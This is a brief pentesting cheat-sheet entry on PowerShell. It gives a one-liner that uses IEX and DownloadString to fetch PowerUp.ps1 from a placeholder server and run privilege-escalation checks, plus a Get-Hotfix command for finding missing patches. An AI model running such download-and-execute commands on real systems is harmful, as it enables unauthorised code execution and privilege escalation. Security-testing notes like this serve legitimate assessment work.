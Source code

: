 # Powershell

**Description:** A description of the entry

**Requirements:** powershell

## Running PowerUp to check for privilege escalation

```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString('<server>/PowerUp.ps1'); Invoke-AllChecks"
```

Run PowerUp on system

## Checking for missing patches using Powershell

```powershell
Get-Hotfix KB*******
```

Checking missing patches (Powershell)

  
## References
* [Powersploit - PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [MSLearn GetHotfix](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-hotfix?view=powershell-7.3)